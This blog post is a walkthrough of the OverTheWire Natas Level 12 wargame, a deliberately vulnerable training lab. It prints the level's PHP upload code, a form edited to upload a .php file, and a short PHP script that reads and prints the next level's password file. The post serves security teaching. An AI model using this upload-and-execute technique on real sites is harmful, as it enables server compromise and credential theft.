```yaml
---
layout: post
title: "OverTheWire Natas Level 12"
date: 2012-11-11T06:27:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - hacking
---
```


The next level to attack in the [OverTheWire](http://www.overthewire.org) Natas wargame, is [Level 12](http://natas12.natas.labs.overthewire.org), which is more "real-world" as well, since developers often forget to limit file extensions.

It starts out giving you the option to upload a <1KB file to the server.

{% img /images/natas12_1.png %}

As with any other challenge, I viewed the source, to analyze it. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

The filename of the uploaded file is a randomly generated .jpg file, based on the hidden input in the HTML. To change that, there are a few ways, but I simply did the old-school method of saving the HTML to my desktop, and modifying it, since there was no code to verify the HTTP Referer. I made the code read:

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="hostess.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

I had really only changed the filename to be a .php extension, since it will still be randomly assigned a filename, but keep the extension. The other change was simply to make it submit to the full URL of the site.

I then opened up the HTML file in my browser, and selected a PHP file that I had made just for this level. It simply reads the password file for the next level, and prints it to the screen. The code for it is as follows: 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas13');
echo $file;
?>
```

{% img /images/natas12_2.png %}

Once that uploaded, it gave me a link to the newly uploaded file.

{% img /images/natas12_3.png %}

Once the newly uploaded file executed, it wrote out the contents of the next level's password.

{% img /images/natas12_4.png %}
